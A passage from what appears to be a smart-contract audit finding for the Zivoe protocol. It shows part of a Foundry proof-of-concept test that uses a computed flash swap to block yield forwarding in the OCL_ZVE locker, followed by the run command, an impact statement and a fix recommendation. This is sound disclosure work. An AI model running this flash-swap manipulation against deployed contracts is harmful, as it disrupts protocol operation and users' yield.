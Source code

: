 ```solidity
        uint256 amountForFlashSwap = IERC20(usdc).balanceOf(pair)
            - basis * IPair(pair).totalSupply() / IERC20(pair).balanceOf(address(OCL_ZVE_UNIV2_USDC));
        bytes memory data = abi.encode(address(OCL_ZVE_UNIV2_USDC));
        flashswap.executeFlashSwap(usdc, amountForFlashSwap, data);

        (, uint256 lpTokensAfter) = OCL_ZVE_UNIV2_USDC.fetchBasis();
        // unchanged number of LP tokens implies that yield didn't be forwarded
        assertEq(lpTokensBefore, lpTokensAfter);
        assertEq(OCL_ZVE_UNIV2_USDC.nextYieldDistribution(), block.timestamp + 30 days - 1);
    }

    function simulationSwapUSDCToZVE(uint256 amount) public {
        address[] memory path = new address[](2);
        path[0] = usdc;
        path[1] = address(ZVE);
        IUniswapV2Router01(UNIV2_ROUTER).swapExactTokensForTokens(amount, 0, path, user, block.timestamp);
    }
}
```
Enter the following command in the terminal:
```solidity
forge test --mt test_attack_forwardYield_DOS --rpc-url https://eth-mainnet.g.alchemy.com/v2/YOUR_API_KEY
```
## Impact
Yield in ```OCL_ZVE``` won't be forwarded because of flashswap manipulation.
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L287-L304
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L336-L342
## Tool used
manual and foundry
## Recommendation
Just let keeper call ```forwardYield```.